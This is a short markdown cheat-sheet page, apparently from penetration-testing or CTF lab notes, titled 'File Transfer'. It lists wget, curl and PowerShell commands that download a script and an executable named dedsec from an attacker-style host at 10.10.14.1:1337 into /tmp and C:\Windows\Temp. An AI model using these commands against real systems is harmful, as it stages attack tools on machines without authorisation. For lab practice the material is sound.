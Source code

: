 ```yaml
---
title: File Transfer
slug: file-transfer
description: File transfer on both OS
image: ../images/snippets/file-transfer.webp
---
```


## Linux

```bash
wget 10.10.14.1:1337/dedsec.py -O /tmp/dedsec.py
curl 10.10.14.1:1337/dedsec.py -o /tmp/dedsec.py
```

## Windows

```bash
(New-Object Net.WebClient).DownloadFile("http://10.10.14.1:1337/dedsec.exe","C:\Windows\Temp\dedsec.exe")
Invoke-WebRequest "http://10.10.14.1:1337/dedsec.exe" -OutFile "dedsec.exe"
wget "http://10.10.14.1:1337/dedsec.exe" -OutFile "C:\Windows\Temp\dedsec.exe"
```
